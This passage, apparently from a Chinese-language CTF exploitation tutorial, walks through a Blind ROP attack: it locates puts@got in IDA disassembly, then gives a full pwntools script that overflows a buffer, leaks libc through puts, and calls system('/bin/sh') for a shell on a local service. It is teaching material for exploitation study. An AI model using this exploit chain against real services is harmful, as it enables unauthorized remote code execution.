    seg000:0000000000400563                 db  0Ah
    seg000:0000000000400564                 db  20h
    seg000:0000000000400565                 db    0

然后按下c,将此处的数据转换为汇编指令，如下

.. code:: asm

    seg000:0000000000400560 ; ---------------------------------------------------------------------------
    seg000:0000000000400560                 jmp     qword ptr cs:601018h
    seg000:0000000000400566 ; ---------------------------------------------------------------------------
    seg000:0000000000400566                 push    0
    seg000:000000000040056B                 jmp     loc_400550
    seg000:000000000040056B ; ---------------------------------------------------------------------------

这说明，puts@got的地址为0x601018。

程序利用
~~~~~~~~

.. code:: python

    #length = getbufferflow_length()
    length = 72
    #stop_gadget = get_stop_addr(length)
    stop_gadget = 0x4006b6
    #brop_gadget = find_brop_gadget(length,stop_gadget)
    brop_gadget = 0x4007ba
    rdi_ret = brop_gadget + 9
    #puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
    puts_plt = 0x400560
    #leakfunction(length, rdi_ret, puts_plt, stop_gadget)
    puts_got = 0x601018

    sh = remote('127.0.0.1', 9999)
    sh.recvuntil('password?\n')
    payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
        stop_gadget)
    sh.sendline(payload)
    data = sh.recvuntil('\nWelCome', drop=True)
    puts_addr = u64(data.ljust(8, '\x00'))
    libc = LibcSearcher('puts', puts_addr)
    libc_base = puts_addr - libc.dump('puts')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
        system_addr) + p64(stop_gadget)
    sh.sendline(payload)
    sh.interactive()

**参考阅读**

-  http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/
-  http://bobao.360.cn/learning/detail/3694.html
-  http://o0xmuhe.me/2017/01/22/Have-fun-with-Blind-ROP/
